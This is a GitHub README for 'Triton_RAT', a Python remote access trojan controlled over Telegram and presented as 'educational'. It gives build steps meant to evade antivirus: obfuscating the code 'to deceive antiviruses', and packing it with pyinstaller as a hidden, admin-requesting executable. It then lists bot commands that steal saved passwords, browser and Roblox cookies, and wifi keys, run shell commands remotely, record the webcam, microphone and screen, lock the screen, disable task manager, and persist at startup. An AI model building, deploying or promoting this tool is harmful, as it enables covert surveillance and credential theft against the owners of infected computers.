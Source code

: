 # Triton_RAT
<div align="center" id="top">
  
</div>


<div align="center">
  <h1>Triton_Remote_Administration_Tool</h1>
<img src="https://i.ibb.co/hVTH6L5/TRITON.png" alt="TRITON" border="0">
  
  <h2 align="center">Hi 👋, I'm WhiteeRabbit</h2>
  
  
  <h3 align="center">I wrote RAT in python that works with telegram!</h3>


  <h3>The best rat that works with telegram!</h3>
This tool was created for educational purporses only!
I'm not responding for your action!
</div>





## :dart: About ##

**With this tool you can control with YOUR pc remotly using telegram**
That you need only hand (2 optional) , exe file that you will get from pyinstaller and telegram account

<p align="left"> <a href="https://twitter.com/" target="blank"><img src="https://img.shields.io/twitter/follow/?logo=twitter&style=for-the-badge" alt="" /></a> </p>

<p align="left">
</p>

<h3 align="left">Let's get started!:</h3>
<h3 align="left">Download python!</h3>
<p align="left"> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> </p>

<h1 align="left">Bot Password (when you entering /help or /start) : acd</h1>



## :checkered_flag: Starting ##

```bash
# Register account in telegram
# Create bot with botfather


# Download this project

$ Download pyinstaller from https://github.com/pyinstaller/pyinstaller
# because most antiviruses will detect as virus pyinstaller from original pip version
# if you downloaded pyinstaller from pip like pip install pyinstaller
# Delete that 

# Download requiremets.txt
$ pip install -r requirements.txt

# change bot api in python file to your own bot
$ bot = telebot.TeleBot('your api token')

# !MAIN STEP! obfuscation will help to deceive antiviruses
$ to obfuscate that script copy full code and paste it in https://freecodingtools.org/py-obfuscator
$ https://freecodingtools.org/py-obfuscator
# Of course you can use another obfuscators but i like that obfuscator (this is not an advertisement)

# after downloading pyinstaller run:
$ pyinstaller --onefile --noconsole --uac-admin --hidden-import telebot --hidden-import pyautogui --hidden-import cv2 --hidden-import json --hidden-import base64 --hidden-import sqlite3 --hidden-import win32crypt --hidden-import Cryptodome.Cipher.AES --hidden-import shutil --hidden-import datetime --hidden-import numpy --hidden-import pyaudio --hidden-import wave --hidden-import random --hidden-import browser_cookie3 --hidden-import pyttsx3 Triton_Rat_Release.py



# wait for building exe

$ run exe and bot started! 


```

## You can use:

        ⚔️/start - start the program
        ⚙️/help - help with commands
        🔌/addstartup - to add autostart
        🧑🏻‍💻/users - show users in pc
        🔑/passwords - show saved passwords in pc
        🍪/robloxcookie - show roblox cookies
        🪪/info - to show information about pc ,also location , country, city , ip
        🖥️/whoami - to show name of pc
        💬👂🏻/textspech 'your text' - your text will sounded in pc
        🎵/playsound 'file path' -(first run /upload to upload your music file in pc) your file will sound in pc for ex: /playsound C:\test.mp3
        🔫/execute - execute shell commands (like terminel emulator in netcat)
        🗡️/e 'your command' - also execute shell commands
        🏹/ex 'your command' - use this if you will execute commands with long response 
        📷/screenshot - to get screenshot
        📹/webscreen - get screenshot from camera
        🎙️/mic 'time in seconds' - record microphone of pc
        ☢️/winblocker - my own winlocker
        ☣️/winblocker2 - if winblocker doesnt work
        📁/download 'your file' - to download files(for exm: /download C:\test.txt)
        🗃️/upload - to upload file in target pc
        📋/clipboard - show users clipboard
        🎦/webcam - get webcam video
        🎥/screenrecord - get screenrecord
        🌐/chrome 'website url' - open website in chrome in target pc
        🌐/edge 'website url' - open website in edge in target pc
        🌐/firefox 'website url' - open website in firefox in target pc             
        Ⓜ️/msg 'your message' - send message(messagebox) to target
        💣/spam 'your message' - spam your message 10 times but if you will click al lot...
        🛜/wifilist - show saved wifi
        🔐/wifipass 'name of accespoint' - show password of saved wifi
        🖱️/mousemesstart - start mouse messing
        🐁/mousemesstop - stop mouse messing
        🪤/mousekill - disable mouse
        🐭/mousestop - enable mouse
        🔊/fullvolume - make full volume
        🔉/volumeplus - make pc volume + 10
        🔇/volumeminus - make pc volume - 10
        🪦/disabletaskmgr - disable task manager
        📠/enabletaskmgr - enable task manager
        🧱/wallpaper - change desktop's wallpaper
        ⌨️/keypress 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypresstwo 'your key' 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypressthree 'your key' 'your key' 'your key' - in pc's keyboard will pressed this keys 
        📃/tasklist - to show tasks
        🧨/taskkill 'your task' - kill entered task
        🕶️/hide - to hide your app
        👓/unhide - unhide your app
        💤/sleep - send windows to sleep
        🕚/shutdown - shutdown pc
        🔄️/restart - restart pc



## Antivirus check ##

![Снимок экрана (21)](https://github.com/WhiteeRabbit/Triton_RAT/assets/143087729/178186bb-aada-4e7b-bf6f-1e751675d6e4)







## :memo: License ##

This project is licensed under the MIT License. For more details, please refer to the [LICENSE](LICENSE.md) file.

